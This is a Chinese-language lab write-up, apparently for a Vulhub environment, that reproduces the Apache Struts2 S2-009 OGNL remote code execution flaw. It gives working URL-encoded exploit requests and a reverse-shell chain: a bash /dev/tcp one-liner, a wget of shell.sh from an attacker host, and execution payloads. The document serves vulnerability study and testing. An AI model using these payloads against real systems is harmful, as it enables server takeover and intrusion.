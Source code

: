 # Apache Struts2 S2-009 远程代码执行漏洞

## 漏洞描述

> 前置阅读： 这个漏洞再次来源于 s2-003、s2-005。了解该漏洞原理，需要先阅读 s2-005 的说明：https://github.com/phith0n/vulhub/blob/master/struts2/s2-005/README.md

参考 [Struts2漏洞分析之Ognl表达式特性引发的新思路](https://www.t00ls.net/viewthread.php?tid=21197)，文中说到，该引入 ognl 的方法不光可能出现在这个漏洞中，也可能出现在其他 java 应用中。

Struts2 对 s2-003 的修复方法是禁止静态方法调用，在 s2-005 中可直接通过 OGNL 绕过该限制，对于 `#` 号，同样使用编码 `\u0023` 或 `\43` 进行绕过；于是 Struts2 对 s2-005 的修复方法是禁止 `\` 等特殊符号，使用户不能提交反斜线。

但是，如果当前 action 中接受了某个参数 `example`，这个参数将进入 OGNL 的上下文。所以，我们可以将 OGNL 表达式放在 `example` 参数中，然后使用 `/helloword.acton?example=<OGNL statement>&(example)('xxx')=1` 的方法来执行它，从而绕过官方对 `#`、`\` 等特殊字符的防御。

漏洞详情:

- http://struts.apache.org/docs/s2-009.html

## 漏洞影响

影响版本: 2.1.0 - 2.3.1.1

## 环境搭建

Vulhub 执行以下命令启动 s2-009 测试环境：

```
docker-compose build
docker-compose up -d
```

## 漏洞复现

测试环境是一个 struts2 的“功能展示”网站 `Struts Showcase`，代码很多，我们的目标是去找一个接受了参数，参数类型是 string 的 action。

先对 `S2-009.war` 进行解压（我用 binwalk，其实直接 zip 就可以），可见源码都在 `WEB-INF/src` 目录中，我一般找 ajax 相关的代码，这些代码一般逻辑比较简单。

找到一个 `WEB-INF/src/java/org/apache/struts2/showcase/ajax/Example5Action.java`：

```
public class Example5Action extends ActionSupport {

    private static final long serialVersionUID = 2111967621952300611L;

    private String name;
    private Integer age;


    public String getName() { return name; }
    public void setName(String name) { this.name = name; }

    public Integer getAge() { return age; }
    public void setAge(Integer age) { this.age = age; }

    @Override
    public String execute() throws Exception {
        return SUCCESS;
    }
}
```

代码没有更简单了，其接受了 name 参数并调用 setName 将其赋值给私有属性 `this.name`，正是符合我们的要求。然后去 `WEB-INF/src/java/struts-ajax.xml` 看一下 URL 路由：

```
<package name="ajax" extends="struts-default">
    ...
    <action name="example5" class="org.apache.struts2.showcase.ajax.Example5Action">
        <result name="input">/ajax/tabbedpanel/example5.jsp</result>
        <result>/ajax/tabbedpanel/example5Ok.jsp</result>
    </action>
    ...
</package>
```

`name=example5`，所以访问 `http://your-ip:8080/ajax/example5.action` 即可访问该控制器。按照原理中说到的方法，将 OGNL 利用代码放在 name 参数里，访问该 URL：

```
GET /ajax/example5?age=12313&name=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27touch%20/tmp/awesome_poc%27%29%29%28meh%29&z[%28name%29%28%27meh%27%29]=true HTTP/1.1
Host: localhost:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

![image-20220301165654308](images/202203011656411.png)

由于该 POC 没有回显，所以调用的是 `touch /tmp/awesome_poc` 命令，查看/tmp 目录发现已经成功：

![image-20220301165639798](images/202203011656842.png)

### 反弹 shell

编写 shell 脚本并启动 http 服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传 shell.sh 文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传 shell.sh 文件的 Payload 为：

```
GET /ajax/example5?age=12313&name=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27wget%20192.168.174.128/shell.sh%27%29%29%28meh%29&z[%28name%29%28%27meh%27%29]=true HTTP/1.1
```

执行 shell.sh 文件的命令为：

```
bash /usr/local/tomcat/shell.sh
```

执行 shell.sh 文件的 Payload 为：

```
GET /ajax/example5?age=12313&name=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27bash%20/usr/local/tomcat/shell.sh%27%29%29%28meh%29&z[%28name%29%28%27meh%27%29]=true HTTP/1.1
```

成功接收反弹 shell：

![image-20220301165932437](images/202203011659531.png)
